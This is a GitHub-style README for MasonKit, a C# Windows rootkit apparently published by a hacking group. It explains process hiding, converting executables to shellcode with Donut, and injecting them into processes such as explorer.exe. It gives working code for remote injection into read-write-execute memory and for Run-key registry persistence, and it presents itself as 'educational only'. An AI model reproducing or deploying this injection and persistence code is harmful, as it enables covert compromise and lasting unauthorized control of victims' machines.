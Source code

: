 # MasonKit - Rootkit Project

![MasonKit](https://i.ibb.co/qLFfjR2n/image.png)

## Overview
MasonKit is a **Rootkit** project developed by **ABOLHB** from the **FREEMASONRY** group. The primary purpose of this tool is to **hide a program from the process list** and **inject it into any system file** of your choice. This project is intended for **educational purposes only**, and the creator and contributors are **not responsible** for any misuse or illegal activities performed using this tool.

---

## Disclaimer
This project is shared for **educational and research purposes only**. The creator, contributors, and the FREEMASONRY group are **not responsible** for any illegal or unethical use of this tool. Use it at your own risk, and ensure you have proper authorization before using it in any environment.

---

## Features
1. **Process Hiding**: The Rootkit hides the target process from the system's process list.
2. **Shellcode Injection**: Injects custom shellcode into a specified system process.
3. **Persistence**: Optionally adds the Rootkit to the system's startup registry.
4. **Customizable**: Allows users to specify the target process and shellcode file.

---

## Code Explanation

### 1. **Main Components**
The project is built using **C#** and utilizes the **Windows API** for low-level system operations. Below is a detailed breakdown of the code:

---

### 2. **MasonForm Class**
This is the main form class for the application. It handles user interactions and initiates the Rootkit functionality.

#### Key Methods:
- **`Form1_Load`**: Initializes the form and sets default values for UI elements.
- **`guna2Button1_Click`**: Handles the injection process. It reads the shellcode from a `.bin` file, compiles it into a new executable, and injects it into the target process.
- **`guna2Button2_Click`**: Allows the user to select an executable file, converts it into shellcode using **Donut**, and saves it as `shellcode.bin`.

---

### 3. **Rootkit Functionality**
The Rootkit is implemented in the dynamically generated C# code. Below is a breakdown of its key components:

#### **Constants and Imports**
```csharp
const int PROCESS_ALL_ACCESS = 0x1F0FFF;
const uint MEM_COMMIT = 0x1000;
const uint MEM_RESERVE = 0x2000;
const uint PAGE_EXECUTE_READWRITE = 0x40;
const uint MEM_RELEASE = 0x8000;
```
These constants define memory allocation and process access permissions.

#### **Windows API Functions**
- **`CreateToolhelp32Snapshot`**: Takes a snapshot of the system's processes.
- **`Process32First`** and **`Process32Next`**: Enumerate processes in the snapshot.
- **`OpenProcess`**: Opens a handle to the target process.
- **`VirtualAllocEx`**: Allocates memory in the target process.
- **`WriteProcessMemory`**: Writes shellcode into the allocated memory.
- **`CreateRemoteThread`**: Executes the shellcode in the target process.

#### **Process Enumeration**
```csharp
static uint GetProcessIdByName(string processName)
{
    uint processId = 0;
    IntPtr snapshot = CreateToolhelp32Snapshot(0x2, 0);
    PROCESSENTRY32 processEntry = new PROCESSENTRY32 { dwSize = (uint)Marshal.SizeOf(typeof(PROCESSENTRY32)) };
    if (Process32First(snapshot, ref processEntry))
    {
        do
        {
            if (processName == processEntry.szExeFile)
            {
                processId = processEntry.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, ref processEntry));
    }
    CloseHandle(snapshot);
    return processId;
}
```
This function retrieves the process ID of the target process by name.

#### **Shellcode Injection**
```csharp
IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
IntPtr pRemoteMemory = VirtualAllocEx(hProcess, IntPtr.Zero, shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, shellcode, shellcode.Length, out int bytesWritten);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, pRemoteMemory, IntPtr.Zero, 0, IntPtr.Zero);
```
This code injects the shellcode into the target process and executes it.

#### **Persistence**
```csharp
static void AddToStartup()
{
    string appPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
    using (RegistryKey key = Registry.CurrentUser.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true))
    {
        if (key != null)
        {
            key.SetValue("MyApplication", appPath);
        }
    }
}
```
This method adds the Rootkit to the system's startup registry for persistence.

---

### 4. **Donut Integration**
The project uses **Donut** to convert executable files into shellcode. The shellcode is then injected into the target process.

---

## Usage
1. **Select Target Process**: Enter the name of the target process (e.g., `explorer.exe`).
2. **Load Shellcode**: Use the `Load Shellcode` button to convert an executable into shellcode.
3. **Inject**: Click the `Inject` button to inject the shellcode into the target process.
4. **Persistence**: Enable the `Add to Startup` checkbox to ensure the Rootkit runs on system startup.

---

## Ethical Considerations
- **Authorization**: Always ensure you have proper authorization before using this tool.
- **Legal Compliance**: Misuse of this tool may violate local and international laws.
- **Educational Use**: This project is intended for educational purposes only.

---

## Credits
- **ABOLHB**: Creator of MasonKit.
- **FREEMASONRY Group**: The group behind the project.

---

## Links
- [GitHub Repository](https://github.com/MasonGroup)
- [Discord Server](https://discord.gg/dvXH85CfpN)
- [Instagram](https://www.instagram.com/g7m9)

